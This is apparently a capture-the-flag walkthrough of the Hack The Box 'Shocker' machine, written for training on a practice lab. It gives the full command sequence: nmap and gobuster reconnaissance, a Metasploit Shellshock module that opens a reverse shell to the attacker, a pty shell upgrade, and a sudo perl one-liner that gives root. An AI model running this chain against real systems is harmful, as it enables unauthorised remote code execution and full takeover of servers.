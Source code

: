 ```yaml
---
description: Walkthrough (Easy)
---
```


# Shocker 🟢🟢🟢

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.

[https://app.hackthebox.com/machines/Shocker](https://app.hackthebox.com/machines/Shocker)&#x20;

### Reconnaissance

```bash
nmap -T4 -sVC 10.10.10.56 -oN Nmap
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

* Found http and ssh in 2222 port open.
* Lets try 1st for Directory busting.

### Directory Fuzzing

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/wordlists/SecLists/Discovery/Web-Content/common.txt
```
{% endcode %}

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

* Found intresting directory cgi-bin and searched about it in google about cgi-bin exploit

### Shellshock Remote Command Injection

Shellshock is a critical bug in Bash versions 1.0.3 - 4.3 that can enable an attacker to execute arbitrary commands.

Vulnerable versions of Bash incorrectly execute commands that follow function definitions stored inside environment variables - this can be exploited by an attacker in systems that store user input in environment variables.

* Got to know that cgi-bin runs many bash scripts on web servers.&#x20;
* By using that scripts we can get a Reverse shell, so lets find find that bash script in cgi-bin

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .sh
```
{% endcode %}

```bash
/user.sh              (Status: 200) [Size: 118]
```

* Found user.sh script (cat)

```bash
Content-Type: text/plain

Just an uptime test script

 06:22:41 up  1:32,  0 users,  load average: 0.20, 0.06, 0.02
```

* This script is cheking the uptime of a linux machine.

### Metasploit

```bash
msfconsole
> search shellshock
> use multi/http/apache_mod_cgi_bash_env_exec
> set rhosts 10.10.10.56
> set lhost tun0
> set targeturi /cgi-bin/user.sh
> run
```

* Got a meterpreter Shell upgrade shell by typing `shell`
* `python3 -c 'import pty; pty.spawn("/bin/bash")'`    get fully tty shell
* You will find `user.txt` in `/home/shelly/user.txt`

### Previlage Esculation getting Root

`sudo -l`

```bash
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Found that user can run perl command without root password as a sudo user.

* Get to `gtfobins` and Found sudo for perl [here](https://gtfobins.github.io/gtfobins/perl/)

```bash
sudo perl -e 'exec "/bin/sh";'
```

* after running this command you get a root shell :)

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

